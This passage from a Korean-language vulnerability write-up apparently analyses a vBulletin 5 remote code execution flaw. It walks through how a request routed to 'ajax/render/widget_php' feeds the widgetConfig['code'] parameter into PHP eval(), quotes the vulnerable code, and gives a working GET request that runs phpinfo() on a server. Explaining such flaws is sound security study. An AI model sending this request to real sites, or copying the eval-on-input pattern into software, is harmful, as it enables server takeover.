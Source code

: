 ```xml
        </vb:if>
    </div>
<div>]]></template>

(생략)
```
widget_php 템플릿을 확인해보면 `$widgetConfig['code']`의 값이 비어있지 않고, `!$vboptions['disable_php_rendering']`가 비활성화 되어 있으면 다음 코드를 코드를 실행하는 것을 볼 수 있습니다.

```xml
{vb:action evaledPHP, bbcode, evalCode, {vb:raw widgetConfig.code}}
{vb:raw $evaledPHP}
```

```php
// includes/vb5/frontend/controller/bbcode.php

(생략)
    function evalCode($code)
    {
        ob_start();
        eval($code);
        $output = ob_get_contents();
        ob_end_clean();
        return $output;
    }

(생략)
```
evalCode 메서드는 `includes/vb5/frontend/controller/bbcode.php` 내에 정의하고 있고, eval 함수를 이용해서 $code 값을 실행시키고, `$output` 값을 리턴해주는 것을 볼 수 있습니다.

결론적으로 RCE를 트리거 하기 위해서는 `includes/vb5/frontend/applicationlight.php`에서 `isQuickRoute` 메서드에서 rotuestring의 값이 'ajax/render'여야 하고, callRender에서 $routeInfo[2]의 값은 `'widget_php'`여야 하고, `widget_php` 템플릿에서는 `$widgetConfig['code']`의 값이 존재해야 하고, eval 함수의 인자 값으로도 `$widgetConfig['code']`가 들어갑니다.

```php
$routeInfo = explode('/', $_REQUEST['routestring']);
$params = array_merge($_POST, $_GET);
print_r($routeInfo);
print_r($params);

input  : http://141.164.52.207/?routestring=ajax/render/widget_php&widgetConfig['code']=phpinfo();
output : Array ( [0] => ajax [1] => render [2] => widget_php ) Array ( [routestring] => ajax/render/widget_php [widgetConfig] => Array ( ['code'] => phpinfo(); ) )
```
그리고 사용자 값을 받을 때, `$_REQUEST`를 이용해서 받아 오기 때문에 GET, POST 메서드를 이용해서 공격을 수행할 수 있습니다. 그러니 GET으로 익스를 하려면 위와 같이 그냥 값을 넘겨 주게 되면 `substr($_REQUEST['routestring'], 0, 11)`의 값이 `'ajax/render'`이기 때문에 참이 반환되는 동시에 `vB5_Frontend_ApplicationLight::init`가 실행 돼 `__construct` 메서드가 실행이 될 것이고, `__construct` 메서드에서도 `substr($_REQUEST['routestring'], 0, 11)`의 값이 `'ajax/render'`이기 때문에 handler를 callRender로 설정하게 됩니다. callRender 메서드에서는 routeInfo[2]의 값으로는 `'widget_php'`, widgetConfig['code']의 값으로는 `'phpinfo();'`가 들어가 있어 2개의  `widget_php` 템플릿으로 전송이 됩니다. `widget_php`에서는 widgetConfig['code']가 비어있지 않기 때문에 evalCode로 widgetConfig['code']가 전송이 되어 phpinfo(); 함수가 실행이 되며 RCE가 성공적으로 트리거 되게 됩니다.

---